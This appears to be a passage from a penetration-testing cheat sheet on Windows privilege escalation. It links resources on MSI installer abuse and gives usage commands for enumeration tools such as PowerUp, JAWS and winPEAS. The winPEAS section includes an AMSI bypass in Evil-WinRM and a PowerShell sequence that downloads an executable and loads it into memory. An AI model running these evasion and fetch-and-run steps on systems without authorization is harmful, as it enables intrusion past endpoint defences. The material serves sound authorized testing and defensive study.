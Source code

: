 

### MSI Abuses

- [https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers](https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)
- [https://github.com/mandiant/msi-search](https://github.com/mandiant/msi-search)



### Tools


#### Windows-Exploit-Suggester

* [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python -u windows-exploit-suggester.py -d 2020-09-02-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee out.txt
```


#### PowerUp

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
* [https://recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

```
PS > Invoke-PrivescAudit
```


#### JAWS

* [https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

```
PS > .\jaws-enum.ps1 -OutputFileName out.txt
```


#### winPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)

Run from memory:

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > Invoke-Binary winPEASany.exe quiet log
Or
PS > [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
PS > $url = "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe"
PS > $wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
PS > [winPEAS.Program]::Main("quiet log")
```
